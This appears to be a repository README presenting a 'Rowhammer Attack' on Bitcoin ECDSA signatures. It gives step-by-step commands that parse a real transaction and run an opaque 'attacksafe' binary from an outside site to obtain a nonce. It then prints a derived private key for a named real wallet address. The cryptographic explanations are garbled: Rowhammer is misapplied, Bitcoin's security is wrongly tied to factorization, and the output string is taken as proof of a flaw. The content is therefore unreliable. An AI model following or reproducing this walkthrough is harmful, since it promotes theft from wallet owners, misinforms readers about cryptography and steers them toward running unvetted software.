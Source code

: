 # Rowhammer Attack

---

The biggest cryptographic strength of the Bitcoin cryptocurrency is a computational method in discrete mathematics that takes the factorization problem of large integers and the hidden number problem (HNP) in the Bitcoin ECDSA signature transaction as a basis.
Rowhammer Attack on Bitcoin, allows us to efficiently find all zeros for normalized polynomials modulo a certain value, and we adapt this method to the ECDSA signature algorithm, more precisely to critically vulnerable transactions in the Bitcoin blockchain.
We will apply ECDSA signature differential failure analysis and obtain a private key from a transaction for different Bitcoin Wallets.



---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/15RowhammerAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o

https://btc1.trezor.io/tx/3c79fae7e31a32e12d55f2e0c91d88e11d6f16faa35f1ec85bd7d768a1c18846


---



    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


    python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67

S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4

Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool rowhammer_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


---


    pip3 install ECPy


    python3 point2gen.py 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d



    R          =    0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
    point2gen  =   (0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67 , 0xc6efa8de714dd94d7b659d8935aa9036ada6a2b541a03360901fc195fd0e2cf6)


---


# ALL CORRECT!


K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932



---


---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
